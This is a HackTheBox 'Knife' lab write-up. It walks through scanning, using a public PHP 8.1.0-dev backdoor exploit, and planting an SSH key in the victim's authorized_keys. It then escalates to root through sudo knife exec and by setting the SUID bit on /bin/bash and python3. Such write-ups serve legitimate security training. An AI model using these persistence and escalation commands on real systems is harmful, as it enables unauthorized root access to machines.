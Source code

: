 ```yaml
---
title: "Knife - HTB"
# author:
#   name: 0xKirito
#   link: https://github.com/0xKirito
date: 2021-06-04 07:38:32 +05:30
categories: [Writeups, HackTheBox]
media_subpath: /assets/img/writeups/knife/
tags: [HTB, PHP, Knife]
render_with_liquid: false
---
```


## Recon & Enumeration

- `nmap -Pn -p- -A 10.10.10.242`

```
10.10.10.242:22 => OpenSSH 8.2p1 Ubuntu
10.10.10.242:80 => Apache httpd 2.4.41
```

- Wappalyzer shows PHP 8.1 version. 
- Burp Repeater will also reveal the PHP version information in server headers. 

![Burp Suite Repeater reveals PHP version.png](knife_burp_repeater_reveals_php_version.png)

---

## Exploitation

- Google: `php 8.1 0 dev exploit` 
- [PHP 8.1.0-dev - 'User-Agentt' Remote Code Execution](https://www.exploit-db.com/exploits/49933) 
- `687da428-----------77b683b1c`

- Get ssh files from `/home/james/.ssh`
- `ssh-keygen` on Kali VM to make your own `id_rsa.pub` and then paste its content in victim Knife's `/home/james/.ssh/authorized_key` file. 
- On Kali: `ssh -i ~/.ssh/id_rsa james@10.10.10.242`
- I can ssh into Knife with my own private `id_rsa` key as I've added my `id_rsa.pub` key to `/home/james/.ssh/authorized_key`
- `sudo /usr/bin/knife exec`
- Starts an interactive Knife shell. 

---

## Privilege Escalation

- `sudo -l` shows we can run `/usr/bin/knife` as root without password.
- Went to [Knife docs](https://docs.chef.io/workstation/knife_exec/) and knife has an `exec` command. 
- `sudo /usr/bin/knife exec`
- `sudo /usr/bin/knife exec -e 'sudo ruby -e exec "/bin/bash";'` 
- `system('chmod +s /bin/bash')` in interactive shell. 
- Press enter and then `Ctrl+D` to exit. 
- `ls -la /bin/bash` 
- `bash` now has SUID 
- `bash -p` <span class="fat-arrow">=></span> root!
- Try other commands as well like 
- `sudo /usr/bin/knife exec -e 'sudo ruby'`
- We can also set SUID on `python3'`
- `system('chmod +s /usr/bin/python3')` in interactive shell, `Ctrl+D`. And then: 
- `python3 -c 'import os; os.execl("/bin/bash", "bash", "-p")'`

![HTB Knife Privilege Escalation](htb_knife_privilege_escalation_root.png)

